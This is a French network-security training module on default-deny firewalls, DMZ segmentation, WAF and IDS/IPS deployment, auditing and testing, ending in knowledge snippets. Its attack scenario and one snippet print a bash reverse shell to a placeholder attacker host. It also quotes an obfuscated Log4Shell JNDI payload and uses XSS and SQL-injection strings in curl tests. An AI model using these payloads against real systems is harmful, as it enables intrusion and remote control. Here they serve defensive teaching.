

# Pare-feu, segmentation et protection réseau

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Configurer** une politique `default-deny` avec suivi d'état sur Linux (nftables) et écrire une ACL inter-VLAN équivalente.
- **Concevoir** une segmentation DMZ / application / données, avec des flux autorisés explicitement et un filtrage sortant.
- **Tester** depuis l'extérieur et depuis l'intérieur que les règles font ce qu'on croit (nmap, curl, nc).
- **Déployer** un reverse proxy avec WAF et une sonde IDS/IPS en mode observation, puis les faire passer en blocage sans casser la production.
- **Détecter** les règles trop permissives qui annulent le reste de l'architecture, et auditer les accès distants.

---

## Mise en situation

> Scénario illustratif, chiffres fictifs.

Une PME de 300 postes expose son portail client via un pare-feu de périmètre. Le serveur web est dans une « DMZ ». En pratique, c'est un simple port-forward vers une machine qui se trouve sur le même VLAN que le serveur de fichiers et que l'un des contrôleurs de domaine. Six mois plus tôt, un ticket « l'application ne joint plus la base » a été fermé avec une règle `allow DMZ → LAN any any`, « le temps de trouver le bon port ».

Le portail a une fonction d'upload de pièces jointes qui vérifie l'extension côté client uniquement. L'attaquant dépose un webshell PHP, puis lance un reverse shell vers son serveur sur le port 443 :

```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1
```

Aucune règle sortante ne l'arrête, car tout le trafic sortant en 443 est autorisé « pour les mises à jour ». Depuis le serveur web, il scanne le LAN : la règle `any any` laisse tout passer. SMB, LDAP et Kerberos répondent. La compromission du domaine est une question d'heures.

Les protections étaient toutes présentes sur le papier : pare-feu, DMZ, WAF devant le portail, IDS sur le trunk. Une seule règle les a toutes neutralisées. Le WAF ne voit pas un upload légitime en apparence, la DMZ ne cloisonne rien, et l'IDS génère des alertes que personne ne lit. La suite du module reprend chaque couche pour montrer comment elle se configure et comment elle se contourne.

---

## Surface d'attaque

Un attaquant n'attaque pas « le pare-feu ». Il cherche ce que vos règles laissent passer, et ce qui entoure le pare-feu.

| Vecteur | Exposition | Impact potentiel |
|---|---|---|
| Règle `any any` ou plage trop large (`10.0.0.0/8`) | Tout hôte compromis dans la zone source | Mouvement latéral libre, segmentation sans effet |
| Filtrage sortant absent | Serveurs de la DMZ et postes | Reverse shell, exfiltration, tunnel DNS (`iodine`, `dnscat2`) |
| Interface d'administration du pare-feu ou du VPN exposée | Internet | Contrôle total du périmètre. Exemples : CVE-2024-3400 (PAN-OS GlobalProtect), CVE-2018-13379 (FortiOS SSL VPN) |
| Ports de management ouverts (SSH, RDP, WinRM) | Internet ou zones peu fiables | Brute force, credential stuffing, exploitation de CVE |
| Trunks et ports d'accès mal configurés | Réseau local | VLAN hopping : l'attaquant sort de son VLAN |
| Origine du site web joignable directement | Internet | Contournement du WAF (on attaque l'IP d'origine) |
| IPv6 non filtré | Tout le réseau | Les règles IPv4 sont strictes, l'IPv6 est ouvert |
| Règles obsolètes jamais nettoyées | Prestataires et projets terminés | Accès fantômes vers des systèmes encore actifs |

> 🧠 **Concept clé** : un pare-feu applique la première règle qui correspond. Une règle trop large placée haut dans la liste masque (shadow) toutes celles qui suivent. L'ordre compte autant que le contenu.
{: .callout .callout-important}

---

## Filtrage de paquets : stateless, stateful et politique par défaut

### Ce que voit l'attaquant

Un filtre **stateless** (ACL sur un switch L3, routeur) juge chaque paquet isolément : IP source/destination, protocole, port, éventuellement flags TCP. Pour laisser passer les réponses, on écrit souvent `permit tcp any any established`. Ce mot-clé ne vérifie aucune connexion. Il laisse passer tout paquet portant ACK ou RST.

> 🔴 **Vecteur d'attaque** : le scan ACK de nmap exploite ça.
{: .callout .callout-danger}

```bash
nmap -Pn -sA -p 1-1024 <HOST>
```

Un port « unfiltered » (RST reçu) prouve que le paquet ACK a traversé le filtre. Sur un port que les règles n'ouvrent pas, c'est le signe qu'aucun état n'est suivi : l'attaquant cartographie les règles et sait qu'il peut forger du trafic qui ressemble à une réponse.

Un filtre **stateful** mémorise chaque flux dans une table (`conntrack`*). Une réponse n'est acceptée que si elle correspond à une connexion initiée dans le bon sens. Un ACK isolé ne correspond à aucune connexion connue. Sous Linux, il n'est classé `INVALID` et jeté que si `net.netfilter.nf_conntrack_tcp_loose` vaut 0, ou si une règle exige le flag SYN pour toute nouvelle connexion. Avec la valeur par défaut (1), il est classé `NEW` et accepté par une règle d'ouverture qui ne vérifie pas l'état, comme `tcp dport { 80, 443 } accept` ci-dessous.

\* `conntrack` : sous-système du noyau Linux qui garde l'état de chaque flux (NEW, ESTABLISHED, RELATED) dans une table de taille bornée.

> ⚠️ **Coût réel** : cette table a une limite (`net.netfilter.nf_conntrack_max`). Un flood de SYN ou de connexions UDP la sature. Le noyau logue alors `nf_conntrack: table full, dropping packet` et le pare-feu devient lui-même le point de déni de service. Surveillez le ratio `nf_conntrack_count / nf_conntrack_max` et dimensionnez selon la RAM (chaque entrée coûte environ 300 octets).
{: .callout .callout-attention}

### Une politique par défaut qui refuse

Deux règles guident tout le reste : la politique par défaut est `drop`, et on n'ouvre que ce qu'on sait justifier. Voici le pare-feu d'un serveur web en DMZ (nftables, famille `inet` pour couvrir IPv4 et IPv6 d'un coup) :

```nft
table inet filter {
  set admin_nets {
    type ipv4_addr; flags interval
    elements = { <ADMIN_NET> }
  }

  chain input {
    type filter hook input priority 0; policy drop;
    ct state established,related accept
    ct state invalid drop
    iif lo accept
    ip protocol icmp icmp type echo-request limit rate 5/second accept
    ip6 nexthdr icmpv6 accept
    tcp dport 22 ip saddr @admin_nets accept
    tcp dport { 80, 443 } accept
    limit rate 5/minute log prefix "nft-drop-in: "
  }

  chain output {
    type filter hook output priority 0; policy drop;
    ct state established,related accept
    oif lo accept
    ip daddr <DNS_IP> udp dport 53 accept
    ip daddr <PROXY_IP> tcp dport 3128 accept
    ip daddr <APP_IP> tcp dport 8443 accept
    limit rate 5/minute log prefix "nft-drop-out: "
  }
}
```

La chaîne `output` en `policy drop` est ce qui aurait arrêté le reverse shell de notre scénario.

> 🔒 **Contrôle de sécurité** : le filtrage sortant est le contrôle le plus rentable et le plus souvent absent. Il casse la phase « appel vers l'extérieur » de la plupart des attaques. Son coût est opérationnel : chaque mise à jour, chaque appel d'API tierce doit être déclaré. Un serveur de production qui doit joindre vingt domaines SaaS rend l'allowlist pénible. C'est un arbitrage à assumer par zone : strict en DMZ, plus souple pour les postes (avec proxy et journalisation).
{: .callout .callout-securite}

> 💡 **Astuce** : avant d'appliquer, vérifiez la syntaxe, puis prévoyez un retour arrière pour ne pas vous couper l'accès SSH.
{: .callout .callout-astuce}

```bash
nft -c -f /etc/nftables.conf
nft list ruleset > /root/nft.bak
echo "nft flush ruleset; nft -f /root/nft.bak" | at now + 5 minutes
nft -f /etc/nftables.conf
# Si tout va bien : atrm <JOB_ID>
```

### ACL inter-VLAN et sens des règles

Sur un switch L3 Cisco IOS (la syntaxe varie selon l'équipementier et la version), on pose une ACL (Access Control List) à l'entrée du VLAN source, au plus près de l'origine du trafic :

```
ip access-list extended VLAN20-IN
 permit tcp host <APP_IP> host <DB_IP> eq 5432
 permit udp host <APP_IP> host <DNS_IP> eq 53
 deny   ip any any log
!
ip access-list extended VLAN30-IN
 permit tcp host <DB_IP> eq 5432 host <APP_IP> established
 deny   ip any any log
!
interface Vlan20
 ip access-group VLAN20-IN in
interface Vlan30
 ip access-group VLAN30-IN in
```

L'ACL du VLAN 30 sert aux réponses de la base. Le `established` fonctionne ici parce que la règle est limitée à un hôte et un port source précis. Écrit avec `any any`, il redevient la faille décrite plus haut. Le `deny ip any any log` final rend explicite ce qui est implicite, et le `log` fournit la matière pour la détection.

---

## Segmentation : DMZ, VLAN et isolation des services

Un VLAN (Virtual Local Area Network) sépare des domaines de diffusion. Il ne protège rien tant que le trafic entre VLAN ne passe pas par un point de filtrage. Une DMZ (Demilitarized Zone) est un segment qui héberge ce qui parle à Internet, avec l'hypothèse qu'il sera compromis un jour.



Les règles de conception qui comptent :

- **Aucun flux de la DMZ vers le LAN en dehors d'un couple IP:port précis.** Dans le scénario, le ticket qui a produit `any any` aurait dû se résoudre en `<WEB_IP> → <APP_IP> tcp/8443`. Trouver le bon port prend dix minutes avec `ss -tnp` sur le serveur ou les logs de deny du pare-feu.
- **La base de données n'est joignable que depuis le VLAN application**, jamais depuis les postes ni la DMZ.
- **L'administration passe par un bastion**, pas par des règles `admin_net → tout`.
- **Un flux autorisé par sens.** La DMZ n'initie pas vers le LAN, et le LAN n'initie pas vers la DMZ sans raison.

> 🔴 **Vecteur d'attaque : VLAN hopping.** Deux techniques classiques (outil : `yersinia`) :
>
> - *Switch spoofing* : l'attaquant envoie des trames DTP (Dynamic Trunking Protocol) et négocie un trunk, ce qui lui donne accès à tous les VLAN.
> - *Double tagging* : une trame avec deux tags 802.1Q. Le premier switch retire le tag du VLAN natif et la trame arrive dans le VLAN cible. L'attaque est unidirectionnelle mais suffit pour envoyer un exploit.
{: .callout .callout-danger}

> 🔒 **Contrôle de sécurité** (Cisco IOS, adapter selon l'équipementier) :
{: .callout .callout-securite}

```
interface GigabitEthernet0/10
 switchport mode access
 switchport access vlan <VLAN_ID>
 switchport nonegotiate
!
interface GigabitEthernet0/48
 switchport mode trunk
 switchport nonegotiate
 switchport trunk native vlan 999
 switchport trunk allowed vlan <LISTE_VLAN>
```

Ports d'accès explicites, DTP désactivé, VLAN natif inutilisé (999), liste de VLAN autorisés sur chaque trunk. Ça ne coûte rien en performance, juste de la discipline de configuration.

---

## Proxy, reverse proxy et WAF

### Proxy sortant

Un proxy explicite (Squid, par exemple) offre un point de contrôle, de journalisation et d'allowlist pour tout ce qui sort en HTTP/HTTPS :

```
acl allowed_dst dstdomain .<REPO_DOMAIN> .<UPDATE_DOMAIN>
acl SSL_ports port 443
acl CONNECT method CONNECT
http_access deny CONNECT !SSL_ports
http_access allow allowed_dst
http_access deny all
```

Sans inspection TLS (coûteuse et lourde juridiquement), il ne voit que le nom de domaine demandé. C'est suffisant pour bloquer `<ATTACKER_IP>:443` mais pas un attaquant qui héberge son serveur de contrôle sur un domaine déjà autorisé. Limite à connaître.

### Reverse proxy et WAF

Un reverse proxy (nginx, HAProxy) termine TLS, masque la topologie interne et applique du rate limiting. Un WAF (Web Application Firewall) y ajoute des règles de détection d'attaques applicatives. ModSecurity avec l'OWASP Core Rule Set en est l'exemple open source le plus répandu.

```
SecRuleEngine DetectionOnly
# Après une à deux semaines d'observation des faux positifs :
# SecRuleEngine On
Include /etc/modsecurity/crs/crs-setup.conf
Include /etc/modsecurity/crs/rules/*.conf
```

Les chemins et directives dépendent de la distribution et de la version du module.

🔴 **Vecteurs d'attaque contre un WAF** :

- **Contournement par encodage** : les premières règles contre Log4Shell (CVE-2021-44228) bloquaient `${jndi:`, et les attaquants sont passés à `${${lower:j}ndi:ldap://<ATTACKER>/a}`. Un WAF à signatures court derrière les variantes.
- **Contournement par l'origine** : si l'IP du serveur d'origine est connue (historique DNS, certificats exposés, Shodan) et joignable, l'attaquant parle directement à l'application et le WAF ne voit rien.

🔒 **Contrôle de sécurité** : le pare-feu de l'origine n'accepte le 443/8443 que depuis les IP du reverse proxy ou du WAF (ou exige une authentification mutuelle TLS). Cette règle est la plus oubliée des déploiements WAF.

⚠️ **Coût réel** : un WAF en mode blocage sans phase d'observation bloque du trafic légitime (formulaires riches, API JSON avec balises). Commencez en `DetectionOnly`, analysez les logs d'audit, ajoutez des exclusions ciblées par URL, puis basculez. Monter le niveau de paranoïa du CRS augmente la détection et les faux positifs ensemble.

---

## IDS et IPS : détecter, puis bloquer

Un IDS (Intrusion Detection System) observe une copie du trafic (port miroir, TAP) et alerte. Un IPS (Intrusion Prevention System) est placé en ligne et peut jeter les paquets. Suricata et Snort sont les références open source.

Une règle simple qui détecte une rafale de connexions SSH depuis une même source :

```
alert tcp $EXTERNAL_NET any -> $HOME_NET 22 (msg:"LOCAL SSH connection burst"; flags:S; detection_filter:track by_src, count 10, seconds 60; classtype:attempted-admin; sid:1000001; rev:1;)
```

Les décisions pratiques :

- **Mode IDS d'abord.** Passer en IPS inline (`drop`) sans rodage, c'est accepter qu'une règle mal calibrée coupe l'application un vendredi soir. Passez en `drop` uniquement les règles à haute confiance (exploits connus, C2 identifiés), le reste reste en `alert`.
- **Le chiffrement limite la vue.** Sur du trafic TLS 1.3, la sonde voit les métadonnées (SNI s'il n'est pas chiffré, JA3/JA4, volumes) mais pas la charge utile. Sans déchiffrement, ses règles applicatives sont aveugles.
- **Le placement définit ce qu'on voit.** Une sonde derrière le NAT ne distingue plus les sources. Une sonde sur le lien interne voit le mouvement latéral, qu'un IDS périmétrique ne verra jamais.
- **Mise à jour des règles** : `suricata-update` régulièrement, sinon l'IDS ne connaît que les attaques d'hier.

---

## Protection des accès distants

Un accès distant, c'est une porte qui reste ouverte sur Internet par définition. Les attaquants le savent : les équipements VPN et pare-feu en bordure sont des cibles privilégiées. CVE-2018-13379 (lecture de fichiers sur FortiOS SSL VPN) et CVE-2024-3400 (injection de commande sur PAN-OS GlobalProtect) ont été exploitées activement. Le pare-feu protège le réseau, mais lui-même est exposé.

Ce qui tient en production :

- **Pas de RDP ni de SSH exposés directement.** Passage obligatoire par un VPN (Virtual Private Network) avec MFA, ou un bastion.
- **Le VPN ne donne pas accès à « tout le LAN ».** Chaque groupe d'utilisateurs reçoit un pool d'adresses distinct et des règles de pare-feu qui lui sont propres. Un prestataire n'atteint que son serveur.
- **Délai de patch court sur les équipements de bordure** : quelques jours pour une vulnérabilité exploitée, pas le cycle mensuel habituel. L'interface d'administration n'est jamais exposée sur Internet.
- **Journalisation des connexions réussies**, pas seulement des échecs. Une connexion VPN valide à 3h du matin depuis un pays inhabituel est le signal à détecter.

Configuration SSH côté bastion et rebond côté admin :

```
# /etc/ssh/sshd_config
PasswordAuthentication no
PermitRootLogin no
AllowUsers <ADMIN_USER>
MaxAuthTries 3
```

```bash
ssh -J <USER>@<BASTION_HOST> <USER>@<TARGET_HOST>
```

---

## ⚠️ Le piège central : une règle permissive annule les autres

Reprenons le scénario d'ouverture et regardons ce que `allow DMZ → LAN any any` a neutralisé :

| Protection | Effet de la règle permissive |
|---|---|
| Segmentation DMZ/LAN | Plus aucune isolation : la DMZ voit tout le LAN |
| Principe de moindre privilège | Le serveur web a plus de droits réseau que ses fonctions n'en exigent |
| WAF | Une fois l'application compromise, le WAF est déjà contourné |
| IDS | Le trafic malveillant passe dans la masse du trafic « autorisé » |
| Filtrage sortant | Même effet si l'`any` porte sur la destination Internet |

Une autre forme du même piège : une règle étroite et correcte placée **sous** une règle large. Elle n'est jamais atteinte et personne ne s'en aperçoit.

> 🔒 **Comment la repérer** :
{: .callout .callout-securite}

```bash
nft list ruleset                       # lire l'ordre et les compteurs (si "counter" est présent)
iptables -L FORWARD -v -n --line-numbers   # sur iptables : colonne pkts
```

Les compteurs de hits sont la mesure objective. Une règle à 0 hit depuis six mois est candidate à suppression. Une règle `any` avec des millions de hits est à décomposer en règles précises. Sur un pare-feu commercial, la fonction s'appelle souvent « rule usage » ou « hit count », et l'interface varie selon la version.

---

## Contrôles de détection

Un pare-feu qui drop sans que personne ne regarde les drops ne détecte rien. Les signaux qui valent d'être surveillés :

- **Deny sortant depuis un serveur de DMZ.** Un serveur web qui tente de joindre une IP externe inconnue est presque toujours le signe d'un reverse shell ou d'un malware. C'est l'alerte avec le meilleur ratio signal/bruit.
- **Un hôte qui génère des deny vers de nombreuses IP ou ports** : scan interne, donc mouvement latéral en cours.
- **Modification de règles hors fenêtre de changement.**
- **Hit sur une règle réputée dormante** (accès fantôme d'un ancien prestataire).
- **Pic de `nf_conntrack: table full`.**

Pour trouver les principales sources bloquées sur la dernière heure :

```bash
journalctl -k --since "1 hour ago" | grep 'nft-drop' | grep -oP 'SRC=\K\S+' | sort | uniq -c | sort -rn | head
```

Et pour extraire les alertes Suricata de `eve.json` :

```bash
jq -c 'select(.event_type=="alert") | {t:.timestamp, s:.src_ip, d:.dest_ip, sig:.alert.signature}' /var/log/suricata/eve.json | tail -n 20
```

Ces logs doivent être envoyés vers un SIEM (Security Information and Event Management) hors de la machine surveillée : un attaquant qui prend le contrôle du pare-feu efface ses traces locales en premier.

---

## Tests de sécurité

Une règle qui semble correcte n'est qu'une hypothèse tant qu'on ne l'a pas testée **depuis le bon endroit**.

| Test | Depuis | Résultat attendu |
|---|---|---|
| `nmap -Pn -sS -p- --min-rate 1000 <HOST>` | Internet / zone externe | Seuls 80 et 443 ouverts |
| `nmap -Pn -sU --top-ports 50 <HOST>` | Internet / zone externe | Aucun port UDP `open` |
| `nmap -Pn -sA -p 1-1024 <HOST>` | Zone externe | « filtered » sauf 80 et 443 : leur règle d'ouverture ne vérifie pas l'état et, avec le suivi TCP permissif par défaut (`nf_conntrack_tcp_loose=1`), ils apparaissent « unfiltered » |
| `nc -zv -w 3 <DB_IP> 5432` | Serveur DMZ | Timeout (la DMZ ne joint pas la base) |
| `nc -zv -w 3 <DB_IP> 5432` | Serveur applicatif | Connexion réussie |
| `curl -m 5 -sS https://example.com` | Serveur DMZ | Échec ou timeout (sortie interdite) |
| `dig @8.8.8.8 example.com +time=3` | Serveur DMZ | Timeout (seul le résolveur interne répond) |
| `curl -sk -o /dev/null -w '%{http_code}\n' "https://<HOST>/?q=<script>alert(1)</script>"` | Externe | 403 (WAF en blocage) |
| `curl -sk --resolve <DOMAIN>:443:<ORIGIN_IP> "https://<DOMAIN>/?q=%27%20OR%201=1--" -o /dev/null -w '%{http_code}\n'` | Externe | Timeout (l'origine n'est pas joignable) |

Deux précisions :

- Testez aussi en IPv6 (`nmap -6`) si vous ne l'avez pas désactivé. L'oubli de la famille IPv6 est une erreur classique.
- Un `curl` qui retourne 200 sur une requête d'injection depuis l'IP d'origine signifie que le WAF est contournable. Corrigez la règle sur l'origine.

---

## Scénario : audit de règles d'un pare-feu d'entreprise

> Scénario illustratif, chiffres fictifs.

Une entreprise de services demande un audit de son pare-feu interne avant une certification. L'export de configuration contient 1 200 règles. Le comptage des hits sur 90 jours donne :

- environ 450 règles à zéro hit (anciens projets, prestataires partis) ;
- une vingtaine de règles `any` en source ou en destination, dont trois avec des millions de hits ;
- deux règles « provisoires » avec le commentaire `TEMP – ticket 4412`, vieilles de deux ans, qui ouvrent le LAN à un ancien hébergeur.

Démarche d'assainissement :

1. Passer les règles à zéro hit en mode « log only » ou « désactivée » pendant 30 jours, sans les supprimer d'emblée.
2. Pour chaque règle `any` avec trafic, extraire les couples source/destination/port réels depuis les logs et les remplacer par des règles précises.
3. Mettre en place un processus : toute règle a un propriétaire, un ticket et une date d'expiration.
4. Revue trimestrielle automatisée sur les compteurs.

Le compromis : le gain en sécurité est immédiat, le risque est de couper un flux annuel (clôture comptable, sauvegarde mensuelle) que 90 jours de logs ne voient pas. D'où la désactivation avant suppression. C'est un choix de gestion du risque, pas un choix technique.

---

## Erreurs fréquentes

⚠️ **Politique par défaut `ACCEPT` avec quelques `DROP`**

- Conséquence : tout port nouvellement ouvert par un service est exposé sans que personne ne l'ait décidé.
- Correction : `policy drop` sur `input`, `forward` et `output`, puis n'ouvrir que le nécessaire. Détection : `nmap -p-` depuis l'extérieur et comparaison avec la liste des services attendus.

⚠️ **Règles IPv4 strictes, IPv6 oublié**

- Conséquence : `iptables` est configuré mais `ip6tables` est vide. Le service reste joignable via l'IPv6 global de la machine.
- Correction : nftables en famille `inet`, ou politique `drop` aussi pour IPv6. Détection : `nmap -6 -p- <HOST6>`.

⚠️ **`permit tcp any any established` en ACL**

- Conséquence : un scan ACK passe, et un attaquant dans la zone peut forger des paquets ACK vers n'importe quel hôte.
- Correction : un pare-feu stateful entre les zones, ou des règles `established` limitées à des hôtes et ports sources précis.

⚠️ **Règle « temporaire » sans date d'expiration**

- Conséquence : l'ouverture devient permanente et personne ne s'en souvient.
- Correction : règle avec propriétaire, ticket et date de fin. Revue périodique des règles à zéro hit.

⚠️ **WAF devant un serveur d'origine joignable**

- Conséquence : l'attaquant contourne le WAF en visant l'IP d'origine.
- Correction : le pare-feu de l'origine n'accepte que les IP du WAF ou une authentification mutuelle TLS. Détection : le `curl --resolve` du tableau de tests.

⚠️ **IPS en blocage dès le premier jour**

- Conséquence : un faux positif sur une règle générique coupe un flux métier.
- Correction : IDS d'abord, `drop` seulement sur les `sid` à haute confiance, avec liste de contournement documentée.

⚠️ **Interface d'administration du pare-feu sur l'interface WAN**

- Conséquence : exposition aux CVE de l'équipement lui-même.
- Correction : écoute limitée à une interface de management dédiée, accès par bastion ou VPN avec MFA.

---

## Résumé

Un pare-feu stateful en `default-deny`, avec filtrage sortant, bloque la majorité des attaques opportunistes et casse la phase d'appel vers l'extérieur d'une compromission. La segmentation DMZ / application / données ne vaut que si chaque flux inter-zone est un couple IP:port précis, sinon elle ne limite pas le mouvement latéral. Le reverse proxy et le WAF filtrent les attaques applicatives, à condition que l'origine ne soit pas joignable en direct. L'IDS/IPS apporte de la visibilité, avec un déploiement progressif (alerte avant blocage) et une vue limitée sur le trafic chiffré. Les accès distants passent par VPN avec MFA ou un bastion, et les équipements de bordure se patchent vite. À surveiller en continu : les règles trop larges ou dormantes, les deny sortants des serveurs, les modifications hors changement, et la saturation de `conntrack`.

<!-- snippet
id: firewall_stateful_vs_stateless_ack_scan
type: concept
tech: firewall
level: intermediate
importance: high
format: knowledge
tags: pare-feu,stateful,acl,nmap
title: Stateless vs stateful : ce que révèle un scan ACK
content: Un filtre stateless (ACL) juge chaque paquet isolément, et le mot-clé established laisse passer tout paquet avec ACK ou RST sans vérifier de connexion. Un scan nmap -sA obtient alors des RST (ports unfiltered) et cartographie les règles. Un pare-feu stateful ne jette l'ACK isolé que s'il le classe INVALID (sous Linux, nf_conntrack_tcp_loose=0) ou si une règle exige le flag SYN pour toute nouvelle connexion. Avec la valeur par défaut (1), l'ACK est classé NEW.
description: Le mot-clé established d'une ACL ne suit aucune connexion : un scan ACK le montre. Seul un pare-feu stateful lie les réponses aux connexions initiées.
-->

<!-- snippet
id: firewall_nmap_ack_scan_test
type: command
tech: firewall
level: intermediate
importance: medium
format: knowledge
tags: nmap,pare-feu,audit,stateful
title: Détecter un filtrage sans suivi d'état avec nmap -sA
context: À lancer depuis la zone qui traverse le pare-feu, uniquement sur un périmètre autorisé
command: nmap -Pn -sA -p 1-1024 <HOST>
example: nmap -Pn -sA -p 1-1024 203.0.113.10
description: Des ports « unfiltered » signifient que les paquets ACK traversent. Sur un port que les règles n'ouvrent pas, le filtre ne suit pas l'état. Derrière un pare-feu stateful Linux, les ports ouverts sans contrôle d'état ou du flag SYN apparaissent aussi « unfiltered » (nf_conntrack_tcp_loose=1 par défaut).
-->

<!-- snippet
id: firewall_nft_syntax_check_before_apply
type: command
tech: nftables
level: intermediate
importance: medium
format: knowledge
tags: nftables,pare-feu,configuration,production
title: Vérifier la syntaxe nftables avant application
command: nft -c -f <FICHIER_CONF>
example: nft -c -f /etc/nftables.conf
description: L'option -c (check) valide le fichier sans l'appliquer. Évite de charger une configuration cassée sur un pare-feu de production.
-->

<!-- snippet
id: firewall_nft_safe_rollback_at
type: tip
tech: nftables
level: intermediate
importance: medium
format: knowledge
tags: nftables,rollback,ssh,production
title: Prévoir un retour arrière avant de changer les règles
content: Avant nft -f, sauvegarder avec nft list ruleset > /root/nft.bak puis armer un retour : echo "nft flush ruleset; nft -f /root/nft.bak" | at now + 5 minutes. Si la session SSH survit, supprimer la tâche avec atrm <JOB_ID>. Sinon la machine revient seule à l'état précédent.
description: Un timer at évite de se couper l'accès SSH sur un pare-feu distant après une règle erronée.
-->

<!-- snippet
id: firewall_permissive_rule_cancels_controls
type: warning
tech: firewall
level: intermediate
importance: high
format: knowledge
tags: pare-feu,segmentation,moindre-privilege,regles
title: Une règle any any annule segmentation, WAF et IDS
content: Une règle « allow DMZ → LAN any any » posée pour débloquer un ticket supprime l'isolation de la DMZ : une application compromise voit tout le LAN et le trafic malveillant se noie dans le trafic autorisé. Correction : identifier le flux réel (ss -tnp, logs de deny) et le remplacer par un couple source:destination:port précis.
description: Une seule règle large neutralise la segmentation, le moindre privilège et la détection IDS. Remplacer par un flux IP:port précis issu des logs.
-->

<!-- snippet
id: firewall_egress_reverse_shell_443
type: warning
tech: firewall
level: intermediate
importance: high
format: knowledge
tags: egress,reverse-shell,pare-feu,dmz
title: Sortie 443 ouverte : le reverse shell passe
content: Si tout le trafic sortant en 443 est autorisé, un webshell lance bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1 et le pare-feu voit du HTTPS banal. Correction : politique output en drop sur les serveurs de DMZ, accès via un proxy avec allowlist de domaines, DNS limité au résolveur interne.
description: Autoriser 443 vers n'importe où laisse passer reverse shells et exfiltration. Imposer un proxy avec allowlist et un DNS interne uniquement.
-->

<!-- snippet
id: firewall_egress_test_from_dmz
type: command
tech: firewall
level: beginner
importance: high
format: knowledge
tags: egress,curl,test,dmz
title: Tester le filtrage sortant depuis un serveur de DMZ
context: À exécuter sur le serveur lui-même, pas depuis un poste d'admin
command: curl -m 5 -sS -o /dev/null -w '%{http_code}\n' <URL>
example: curl -m 5 -sS -o /dev/null -w '%{http_code}\n' https://example.com
description: Un code 000 ou un timeout confirme que la sortie est bloquée. Un 200 prouve qu'un reverse shell ou une exfiltration passerait.
-->

<!-- snippet
id: firewall_vlan_hopping_double_tagging
type: concept
tech: switching
level: intermediate
importance: medium
format: knowledge
tags: vlan,vlan-hopping,switching,segmentation
title: VLAN hopping : switch spoofing et double tagging
content: Switch spoofing : l'attaquant émet des trames DTP et négocie un trunk, ce qui lui donne tous les VLAN. Double tagging : une trame avec deux tags 802.1Q arrive dans le VLAN cible quand le premier tag est celui du VLAN natif. Défense : ports en switchport mode access, switchport nonegotiate, VLAN natif inutilisé (999), trunk avec liste de VLAN autorisés.
description: Les VLAN ne sont pas une frontière de sécurité si les ports négocient des trunks. Imposer mode access, nonegotiate et un VLAN natif inutilisé.
-->

<!-- snippet
id: firewall_waf_origin_bypass
type: warning
tech: waf
level: intermediate
importance: high
format: knowledge
tags: waf,reverse-proxy,contournement,origine
title: WAF contournable si l'IP d'origine est joignable
content: Si l'IP du serveur d'origine est trouvable (historique DNS, certificats, Shodan) et joignable, l'attaquant envoie ses payloads directement et le WAF ne les voit jamais. Correction : le pare-feu de l'origine n'accepte que les IP du WAF ou une authentification mutuelle TLS. Test : curl --resolve <DOMAIN>:443:<ORIGIN_IP> doit échouer depuis Internet.
description: Le WAF ne protège que si l'origine refuse tout ce qui ne vient pas de lui. Tester avec curl --resolve depuis l'extérieur.
-->

<!-- snippet
id: firewall_waf_origin_bypass_test
type: command
tech: waf
level: intermediate
importance: medium
format: knowledge
tags: waf,curl,test,origine
title: Tester l'accès direct à l'origine derrière le WAF
context: Depuis une machine externe au réseau protégé
command: curl -sk --resolve <DOMAIN>:443:<ORIGIN_IP> "https://<DOMAIN>/?q=%27%20OR%201=1--" -o /dev/null -w '%{http_code}\n'
example: curl -sk --resolve shop.example.org:443:198.51.100.20 "https://shop.example.org/?q=%27%20OR%201=1--" -o /dev/null -w '%{http_code}\n'
description: Un timeout est le bon résultat. Une réponse 200 ou 500 prouve que l'origine est joignable en direct et que le WAF est contournable.
-->

<!-- snippet
id: firewall_ids_to_ips_rollout
type: tip
tech: suricata
level: intermediate
importance: medium
format: knowledge
tags: ids,ips,suricata,deploiement
title: Déployer un IPS en deux temps
content: Démarrer Suricata en mode IDS (alert) sur un port miroir, relever les faux positifs pendant 2 semaines avec jq sur eve.json, puis passer en drop uniquement les sid à haute confiance (exploits connus, C2 identifiés). Garder les règles génériques en alert et lancer suricata-update régulièrement.
description: Un IPS en blocage immédiat coupe du trafic légitime. Observer avec alert, puis ne passer en drop que les règles à faible taux de faux positifs.
-->

<!-- snippet
id: firewall_suricata_config_test
type: command
tech: suricata
level: intermediate
importance: low
format: knowledge
tags: suricata,ids,configuration,test
title: Valider la configuration Suricata avant redémarrage
command: suricata -T -c <CONFIG_FILE>
example: suricata -T -c /etc/suricata/suricata.yaml
description: Teste la configuration et charge les règles sans lancer la capture. Détecte une règle syntaxiquement fausse avant qu'elle ne désactive la sonde.
-->

<!-- snippet
id: firewall_edge_device_cve_exposure
type: concept
tech: vpn
level: intermediate
importance: high
format: knowledge
tags: vpn,cve,bordure,patch
title: Les équipements VPN et pare-feu de bordure sont des cibles
content: Les équipements joignables depuis Internet sont exploités en priorité : CVE-2018-13379 (lecture de fichiers sur FortiOS SSL VPN) et CVE-2024-3400 (injection de commande sur PAN-OS GlobalProtect) ont été exploitées activement. Un attaquant qui compromet le pare-feu contrôle toutes les règles. Défense : patch en quelques jours, interface d'administration jamais exposée, journalisation des connexions réussies.
description: Le pare-feu est lui-même une surface d'attaque. Un patch en quelques jours et une administration hors Internet réduisent la fenêtre d'exploitation.
-->

<!-- snippet
id: firewall_denied_sources_top
type: command
tech: nftables
level: intermediate
importance: medium
format: knowledge
tags: logs,detection,nftables,journalctl
title: Lister les sources les plus bloquées sur la dernière heure
context: Suppose des règles de drop avec le préfixe de log nft-drop
command: journalctl -k --since "1 hour ago" | grep 'nft-drop' | grep -oP 'SRC=\K\S+' | sort | uniq -c | sort -rn | head
description: Classe les IP sources par nombre de paquets bloqués. Une IP interne en tête indique un scan ou un hôte compromis en mouvement latéral.
-->

<!-- snippet
id: firewall_conntrack_table_full
type: error
tech: nftables
level: advanced
importance: medium
format: knowledge
